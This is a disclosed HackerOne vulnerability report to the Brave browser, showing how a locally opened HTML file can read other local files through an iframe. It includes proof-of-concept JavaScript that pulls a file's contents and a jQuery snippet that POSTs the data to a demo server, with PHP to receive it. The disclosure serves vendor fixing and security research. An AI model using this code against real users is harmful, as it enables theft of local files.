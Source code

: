 # Access to local file system using javascript

## Report Details
- **Report ID**: 175979
- **URL**: https://hackerone.com/reports/175979
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-15T11:27:39.225Z
- **Disclosed**: 2016-11-16T06:20:10.097Z

## Reporter
- **Username**: karel_origin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
Hey,

The browser can access the local files using iframes with a local html file. this is very normal and often used for local web development but javascript shouldn't be able to get the content of that iframe because this can be used to post the contents to the attackers server. something else I noticed is that it's not limited to the same directory.


```
<html>
<body>
<div id='div1'>
</div>
<script>
current_href = document.location.href
frame = document.createElement('iframe'); frame.src = current_href.replace('/Downloads/test.html', '/Desktop/Desktop.txt'); frame.id = 'frm'; document.getElementById('div1').appendChild(frame)
setTimeout(function func(){loot = document.getElementById('frm').contentWindow.document.getElementsByTagName('pre')[0].innerHTML
alert('Your data is: ' + loot)
}, 500)
</script>
</body>
</html>
```

I was able to do this with some simple html as you can see above.
This loads a file called 'Desktop.txt' from the downloads folder and creates an alert message with the file content. I would have been able to post it to my server using jquery like this:

```
//Gets data from iframe and saves it to the getdata variable
getdata = document.getElementsByTagName('frm')[0].contentWindow.document.getElementsByTagName('pre')[0].innerHTML
//Posts to the php server located at 192.168.0.106 (local address for demo purposes)
$.ajax({type: "POST", url: "http://192.168.0.106/post.php", data: {string:getdata}});}
```

```
//Can be retrieved with php using:
$_POST['string'];
```

This only works if the html file is opened locally as i mentioned earlier,
Karel.

## Attachments
- Screen_Shot_2016-10-15_at_13.20.12.png
